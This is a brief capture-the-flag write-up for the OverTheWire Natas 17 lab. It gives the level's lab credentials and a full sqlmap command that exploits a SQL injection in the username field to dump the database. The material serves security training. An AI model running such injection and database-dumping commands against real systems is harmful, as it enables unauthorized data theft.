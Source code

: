 
# Natas 17 (Over The Wire CTF)

Credentials:

- Username: `natas17`
- Password: `XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd`


# Problem

SQL Injection for `username` parameter.

The website's PHP code executes an SQL query directly based on the input text field.


# Solution

The website's input text field can be abused by `sqlmap` to pipe through a lot of
exploitation techniques, and we are going to try that out.

```bash
sqlmap -u "http://natas17.natas.labs.overthewire.org/index.php" --data=username=natas17 --auth-type=basic --auth-cred=natas17:XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd --dbms=mysql --level=5 --risk=3
```

After `sqlmap` is done detecting SQL injection techniques, it offers to dump the database
successfully. It takes a while, because the server was really slow, so it needed to increment
its `timeout` value to about `10 seconds` at the end.

